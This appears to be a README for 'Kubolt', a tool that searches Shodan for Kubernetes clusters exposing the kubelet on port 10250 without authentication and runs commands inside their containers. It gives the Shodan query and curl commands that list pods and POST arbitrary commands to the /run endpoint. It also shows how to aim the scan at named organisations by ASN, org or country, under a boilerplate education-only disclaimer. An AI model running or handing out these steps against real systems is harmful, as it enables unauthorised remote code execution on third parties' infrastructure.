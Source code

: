 # Wat?
**Kubolt** is simple utility to scan public unauthinticated kubernetes clusters and run commands inside containers

# Why?
If the cluster exposed port 10250 to internet it's possible to use getrun function from [kubelet](https://github.com/kubernetes/kubernetes/blob/master/pkg/kubelet/server/server.go) and run commands inside containers:
```go
// getRun handles requests to run a command inside a container.
func (s *Server) getRun(request *restful.Request, response *restful.Response) {
	params := getExecRequestParams(request)
	pod, ok := s.host.GetPodByName(params.podNamespace, params.podName)
	if !ok {
		response.WriteError(http.StatusNotFound, fmt.Errorf("pod does not exist"))
		return
	}
```

# How?
Okay, let's ask our friend Shodan :trollface:
The basic query is 
>ssl:true port:10250 404 

**Kubelet** use port 10250 with SSL by default, 404 is the HTTP response without URL path. 

**Kubolt** ask Shodan by API for list of IP addresses and keep them for other OSINT actions :grin:

First, let's ask Kubelet for running pods and filter hosts where response doesn't contain `Unauthorized` and contain `container` so we could run command inside it. 
```bash
curl -k https://IP-from-Shodan:10250/runningpods/ 
```
Anyway, if you find the host without any running pods at the time, keep it for next time when pods might be started :grin: 

You could list all the available pods from these requests:
```bash
curl -k https://IP-from-Shodan:10250/pods/
#or
curl http://IP-from-Shodan:10255/pods/ 
```

Next **kubolt** parse response and generate a new request as below:
```bash
curl -XPOST -k https://IP-from-Shodan:10250/run/<namespace>/<PodName>/<containerName> -d "cmd=<command-to-run>" 
```
You could target companies more accurate using Shodan filters like this:
- asn
- org
- country
- net


To do it use `--query` param like this:
```python3
python kubolt.py --query "asn:123123 org:'ACME Corporation'"
#or
python kubolt.py --query "org:'ACME Corporation' country:UK"
```

# Shodan 
**Kubolt** use Shodan API and [Query Credits](https://help.shodan.io/the-basics/credit-types-explained) accordingly, if you run the tool without query filters then you will probably fire all your credits `¯\_(ツ)_/¯`  

# Demo
![demo](/github-scale.gif)

# Important
The Tool provided by the author should only be used for education purposes. The author can not be held responsible for the misuse of the Tool. The author is not responsible for any direct or indirect damage caused due to the usage of the Tool.
